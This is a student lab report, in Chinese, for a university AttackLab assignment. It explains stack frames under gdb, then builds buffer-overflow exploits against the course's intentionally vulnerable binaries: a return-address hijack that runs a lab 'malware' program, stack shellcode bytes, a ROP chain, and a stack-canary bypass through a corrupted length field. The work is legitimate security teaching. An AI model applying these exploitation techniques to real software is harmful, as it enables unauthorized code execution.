








# AttackLab 实验报告

| 项目 | 内容 |
| --- | --- |
| 姓名 / 学号 | 李和桥 / 25300190071 |
| 课程 | 复旦大学 计算机系统基础（2026 年秋季学期） |
| 仓库 | <https://github.com/EdiwinJoe/lab3Attacklab> |
| 环境 | WSL2 / Ubuntu 26.04 / x86-64，gcc 15.2.0，gdb 17.1 + GEF |

实验里所有调试都在 `attack/` 目录下进行，源码 `src/` 仅供对照，二进制没有重新编译过。

## 一、观察 input 的栈帧

按实验指导在 `input` 处下断点：

```
gef> b input
Breakpoint 1 at 0x40197f
gef> r
```

`0x40197f` 是 prologue 执行完之后的第一条指令，函数的三条 prologue 在它之前。



**input 是谁调用的。** `bt` 给出两帧：`#0` 是当前的 `input`，`#1` 是 `0x401ad1` 处的 `main`。所以调用者是 `main`，`input` 执行完会回到 `0x401ad1` 继续。

**前三条指令在做什么。** `disas input` 显示：

```
0x401977: push %rbp
0x401978: mov  %rsp,%rbp
0x40197b: sub  $0x10,%rsp
```

第一条把调用者 `main` 的 `rbp` 压到栈上保存，第二条让 `rbp` 指向这个刚保存的位置、成为 `input` 自己的帧指针，第三条把 `rsp` 再往下挪 16 字节，给 `char expression[16]` 腾地方。三条合起来就是函数的 prologue，作用只有一个：把属于 `input` 的那一小段栈划出来并记住它。



用 `si` 一条条走过去看得很清楚：执行 `push %rbp` 之前 `rsp` 是 `0x721000800ff8`，压完变成 `0x721000800ff0`，而 `0x721000800ff0` 里存的内容正是 `main` 原来的 `rbp`（`0x7fffffffe6a0`）。等 `mov %rsp,%rbp` 执行完，`rbp` 自己也变成了 `0x721000800ff0`。

所以 `$rbp` 指向的那 8 个字节里放的是**调用者 main 的 rbp**，来源就是 prologue 的第一条 `push %rbp`。

**`$rbp + 8` 处是什么。** 在 `0x40197f` 停下后直接读内存：



```
0x721000800fe0: 0x0000721000800ff0  0x0000000000401ad1
                ↑ [rbp]              ↑ [rbp+8]
```

`[rbp+8]` 是 `0x401ad1`。再看 `disas main`：

```
0x401acc: call 0x401977 <input>
0x401ad1: mov  $0x0,%eax          ← 正是 0x401ad1
```

它是 `main` 里 `call input` 的下一条指令，也就是 `input` 的**返回地址**。

**这个值是谁写进去的。** 只在 `input` 自己的代码里找是找不到的——`input` 从头到尾没写过 `[rbp+8]`。于是把断点下到调用点：

```
gef> b *0x401acc
gef> r
gef> x/gx $rsp
0x721000800ff0: 0x00007fffffffe6a0
gef> si
gef> x/gx $rsp
0x721000800fe8: 0x0000000000401ad1
```



`si` 执行掉 `call` 这一条指令后，`rsp` 从 `0x721000800ff0` 掉到 `0x721000800fe8`，新栈顶正好是 `0x401ad1`，同时 `rip` 变成 `0x401977` 进了 `input`。结论很直接：写 `[rbp+8]` 的是 **main 里那条 `call input`**。`call` 指令的行为就是"把下一条指令的地址压栈，然后跳到目标函数"，压进去的这个地址刚好落在 `input` 的 `[rbp+8]` 上。

**leave 和 ret 做了什么。** 在 `input` 的 `leave`（`0x4019d5`）处下断点，逐条执行并记录寄存器：



| 时刻 | rsp | rbp | rip |
| --- | --- | --- | --- |
| 执行 `leave` 前 | 0x721000800fd0 | 0x721000800fe0 | 0x4019d5 |
| 执行 `leave` 后 | 0x721000800fe8 | 0x721000800ff0 | 0x4019d6 |
| 执行 `ret` 后 | 0x721000800ff0 | 0x721000800ff0 | 0x401ad1 |

`leave` 等价于 `mov %rbp,%rsp` 加 `pop %rbp`：先把栈顶拉回帧底（一次性丢掉 `expression` 那 16 字节），再从栈上弹回调用者的 `rbp`，于是 `rbp` 从 `0x721000800fe0` 变回了 `main` 的 `0x721000800ff0`。紧接着 `ret` 从新的栈顶弹出返回地址送进 `rip`，`rip` 就有了 `0x401ad1`，控制权回到 `main`。

把四件事串起来：`call` 压入返回地址并跳转；prologue 保存调用者的 `rbp`、建立自己的帧、给局部变量留空间；`leave` 释放整个帧并恢复调用者的 `rbp`；`ret` 弹出返回地址回到调用者。它们配合的结果就是函数调用看起来"来去自如"。

## 二、输入不同长度的字符串

`expression` 只有 16 字节，但 `gets` 会一直写到换行为止，多出来的部分自然就漫到栈上去了。分别试 20 和 32 个字符（`gets` 还会补一个 `\0`，实际写入 21 和 33 字节）：



20 个字符时程序没有任何异常，照常打印结果、继续下一轮。这是因为 21 字节只写满了 16 字节缓冲区、再往上的 5 字节落在 saved rbp 里，返回地址还完好，`ret` 依然能正确回到 `main`。

32 个字符时就崩了：

```
$ ./dark-calc < p32.bin
Segmentation fault
exit=139
```

139 是 128 加 11，也就是进程被 11 号信号 SIGSEGV 终结。在 GDB 里断在 `gets` 返回之后（`0x40199f`）看栈：

```
gef> x/6gx $rbp-0x10
0x721000800fd0: 0x4141414141414141  0x4141414141414141
0x721000800fe0: 0x4141414141414141  0x4141414141414141
```

缓冲区、saved rbp 都变成了 `0x41`，继续往后就是返回地址；再 `c` 继续跑，崩溃点停在 `input` 的 `ret`（`0x4019d6`），因为 `ret` 要从栈上弹出一个被改成 `0x4141414141414141` 的"地址"。

超量数据写到哪儿，按偏移排一遍就很清楚了：

| 偏移 | 覆盖的东西 |
| --- | --- |
| 0 – 15 | `expression` 缓冲区 |
| 16 – 23 | saved rbp |
| 24 – 31 | 返回地址 |
| 32 以后 | 调用者（`main`）的栈帧 |

## 三、让 dark-calc 执行 ./malware

`input` 在 `leave` 之前还有一句 `strcpy(command_buf, expression)`，把栈上的字符串复制到全局变量 `command_buf`（`0x6030d0`）。`strcpy` 遇到 `\0` 就停，所以只要把 `./malware\0` 放在缓冲区开头，`command_buf` 里就只剩干净的一条命令，后面的填充字节不会被复制进去。

`eval` 里真正执行命令的是：

```
0x401a6b: mov $0x6030d0,%edi    ; rdi = command_buf
0x401a70: call system@plt       ; system(command_buf)
```

正常流程里 `eval` 会先给命令套上 `echo $((` 和 `))` 再执行，跳到这里就等于把 `command_buf` 原样交给 `system`，包装步骤整个跳过了。

payload 布局：

| 偏移 | 内容 | 说明 |
| --- | --- | --- |
| 0 – 9 | `./malware\0` | 被 strcpy 复制进 command_buf |
| 10 – 15 | `A` | 填满缓冲区 |
| 16 – 23 | `B` | saved rbp（用不到） |
| 24 – 31 | `0x401a6b` | 覆盖返回地址 |

`ret` 一执行就跳到 `0x401a6b`，`system("./malware")` 跑起来：



输出里出现 "The bomb was triggered by the dark-calc process." 和 "You have successfully detonated the bomb! Congratulations!"，说明 `malware` 确实是由 `dark-calc` 这条进程链拉起来的。命令跑完之后程序会因为 `eval` 的 `leave/ret` 用了伪造的 `rbp` 而崩掉，但判定要的输出已经打印出来了。

## 四、main 的机器码

`main` 的第一条指令在 `0x401ac3`，在这里下断点后用 `x/9bx` 读字节：



```
0x401ac3: 0x55 0x48 0x89 0xe5 0xb8 0x00 0x00 0x00
0x401acb: 0x00
```

对应关系是：

| 汇编 | 机器码 | 长度 |
| --- | --- | ---: |
| `push %rbp` | `55` | 1 |
| `mov %rsp,%rbp` | `48 89 e5` | 3 |
| `mov $0x0,%eax` | `b8 00 00 00 00` | 5 |

这些字节在代码段里**按指令顺序首尾相接**地排着，中间没有空隙：

| 指令 | 内存区间 |
| --- | --- |
| `push %rbp` | `0x401ac3` – `0x401ac3` |
| `mov %rsp,%rbp` | `0x401ac4` – `0x401ac6` |
| `mov $0x0,%eax` | `0x401ac7` – `0x401acb` |
| 下一条 `call input` | 从 `0x401acc` 开始 |

逐条 `si` 时 `rip` 的走向也印证了这一点：从 `0x401ac3` 变到 `0x401ac4`（加 1），再到 `0x401ac7`（加 3），最后到 `0x401acc`（加 5）。CPU 取指就是"从 `rip` 指向的地方读出一条指令的字节、执行、再把 `rip` 加上这条指令的长度"。

另外顺带一提，`mov $0x0,%eax` 后面那四个 `0x00` 是立即数 `0` 本身，不是填充；`call` 的 `e8 a6 fe ff ff` 里 `a6 fe ff ff` 则是按小端存放的相对偏移。

## 五、在栈上执行代码

`grade_eval` 在程序里没被调用过，地址是 `0x401a87`。目标就是让 `rip` 指向写在栈上的机器码，由那段代码把 `4` 放进 `edi` 再调用 `grade_eval`。

这里之所以可行，是因为 `dark-calc` 自己在 `init_fixed_stack` 里做了一件很特别的事：

```
0x401b0a: movabs $0x721000000000,%rdi    ; 固定基址
0x401b02: mov    $0x7,%edx               ; PROT_READ|WRITE|EXEC
0x401afd: mov    $0x100022,%ecx          ; MAP_PRIVATE|ANON|FIXED
0x401b14: call   mmap@plt
...
0x401c13: mov    0x6030f0(%rip),%rsp     ; __wrap_main：切到这块栈
```

它用 `mmap` 在硬编码地址 `0x721000000000` 申请了一块 8 MB 的**可读可写可执行**区域，`__wrap_main` 再通过 `fixed_stack_top` 把 `rsp` 切过去。于是栈既允许执行代码，地址又是固定的——`input` 的缓冲区永远在 `0x721000800fd0`。

shellcode 一共 12 字节：

| 字节 | 指令 | 作用 |
| --- | --- | --- |
| `bf 04 00 00 00` | `mov $4,%edi` | 参数 = 4 |
| `b8 87 1a 40 00` | `mov $0x401a87,%eax` | `grade_eval` 的地址 |
| `ff d0` | `call *%rax` | 调用它 |

payload 是 shellcode 加 4 字节填充填满缓冲区，再写 saved rbp，最后把返回地址改成缓冲区首地址 `0x721000800fd0`。`input` 的 `ret` 弹出这个地址后 `rip` 就落在栈上的 shellcode 起始处，执行完 `grade_eval(4)` 打印出 "Hope A will be your grade!"。

## 六、ROP

`dark-calc-nx` 的 `GNU_STACK` 是 `RW`，栈不可执行，上一节直接跳栈的办法在这里行不通；栈上的地址也不再固定，硬编码没意义。这时候只能把已有的代码片段（gadget）用 `ret` 串起来。

需要的两个东西可以从符号表和反汇编里找到：

```
$ nm attack/dark-calc-nx | grep grade_eval
0000000000401978 T grade_eval

$ objdump -d attack/dark-calc-nx | sed -n '/401a2a/,/401a35/p'
0x401a32: 41 5f       pop %r15
0x401a34: c3          ret
```

`pop %r15; ret` 的字节是 `41 5f c3`。x86 的指令长度可变，CPU 不要求从指令"开头"解码，所以从第二个字节 `0x401a33` 读起就是 `5f c3`，即 `pop %rdi; ret`。这种从指令中间切出来的 gadget 正是 ROP 能用很少的素材拼出功能的原因。

链只有三格：

| 偏移 | 值 | 作用 |
| --- | --- | --- |
| 0 – 15 | `A` × 16 | 填满缓冲区 |
| 16 – 23 | `B` × 8 | 覆盖 saved rbp |
| 24 – 31 | `0x401a33` | `pop %rdi; ret` |
| 32 – 39 | `4` | 被 `pop` 进 `rdi` |
| 40 – 47 | `0x401978` | `grade_eval` |

`input` 的 `ret` 先把控制权交给 `pop %rdi; ret`，这一条把紧跟其后的 `4` 弹进 `rdi`，它的 `ret` 再把控制权交给 `grade_eval`。进函数时 `edi` 已经是 4，函数照常打印 "Hope A will be your grade!"。

## 七、绕过 Canary

`dark-log` 编译时开了 Stack Protector。`input` 的栈帧布局如下：

| 地址 | 内容 | 相对 expression 的偏移 |
| --- | --- | --- |
| `rbp-0x120` | `expression[128]` | 0 |
| `rbp-0xa0` | `logMsg[128]` | 128 |
| `rbp-0x20` | `len`（int） | 256 |
| `rbp-0x18` | `pad[8]` | 264 |
| `rbp-0x8` | canary | 280 |
| `rbp` | saved rbp | 288 |
| `rbp+8` | 返回地址 | 296 |

函数结尾的检查是：

```
0x4017df: mov -0x8(%rbp),%rax
0x4017e3: xor %fs:0x28,%rax
0x4017ec: je  0x4017f3
0x4017ee: call __stack_chk_fail
```

如果像普通栈溢出那样一路写到返回地址（偏移 296），必然会把偏移 280 的 canary 一起改掉，`xor` 的结果不为零，程序直接 `__stack_chk_fail` 退出。所以不能这么干。

`gets` 之后还有一句：

```c
memcpy(f.logMsg + f.len, f.expression, sizeof(f.expression));   /* 128 字节 */
```

它的目标地址是 `expression + 128 + len`，而 `len` 就躺在偏移 256——**在我们的溢出范围之内**。把 `len` 改成 160：

```
目标 = expression + 128 + 160 = expression + 288 = saved rbp
```

这一次 128 字节的拷贝从 saved rbp 开始写，完全落在 canary 的高地址一侧，canary 一个字节都没动，检查自然通过。也就是说，`memcpy` 成了"绕过 canary 的写原语"，被复制的内容就是 `expression` 开头那 128 字节。

于是在 `expression` 的开头放一条 ROP 链，长度上只要保证 `gets` 的写入不超过偏移 279（`\0` 落在 260 的 pad 区就够了）：

| 偏移（expression 内） | 内容 | 作用 |
| --- | --- | --- |
| 0 – 7 | `B` × 8 | 被 `leave` 弹进 rbp，无影响 |
| 8 – 15 | `0x4018a3` | `pop %rdi; ret` |
| 16 – 23 | `4` | `edi = 4` |
| 24 – 31 | `0x401677` | `grade_eval` |
| 256 – 259 | `160` | 控制 memcpy 目标 |

整个 payload 261 字节（含换行）。`memcpy` 把前 32 字节搬到 saved rbp 和返回地址上，canary 校验通过后 `leave; ret` 直接跳进链里，最终打印 "Hope A will be your grade!"。

**关于重排局部变量。** 这种攻击能成立的关键，是 `len` 排在 `expression` 的**高地址**一侧，`gets` 往高地址写就能改到它。如果把这个字段挪到 `expression` 前面（更低地址），溢出就够不着它，`memcpy` 的目标固定为 `logMsg`，也就没有"跳过 canary 往返回地址写"这条路了。另一个方向是让 `memcpy` 的目标只由常量决定，不依赖任何可能被溢出的变量——本质上都是"别让溢出能改到后面要用的控制数据"。

## 八、工具与参考

调试用 gdb 17.1 配合 GEF（`b`、`si`、`x/`、`info registers`、`bt` 这些命令的原生输出已经够用，GEF 主要在每次停下时把寄存器、栈、反汇编和调用链一起列出来，省掉反复手敲）。静态分析用 `objdump -d` 和 `nm`，payload 用 Python 生成。

参考资料：

- CS:APP 3e 第 3 章（栈帧、过程调用与返回）
- 课程实验页：<https://ics-26fall-fdu.github.io/labs/lab3-attack-lab/>
- GDB 文档：<https://www.sourceware.org/gdb/documentation/>
- GEF 文档：<https://huggin.github.io/gef/>
- x86-64 指令编码参考：<https://www.felixcloutier.com/x86/>

本报告中的分析、payload 构造与调试过程由本人完成，写作时使用了 AI 助手帮助整理表述和检查细节；文中每个结论都对照过实际运行结果。
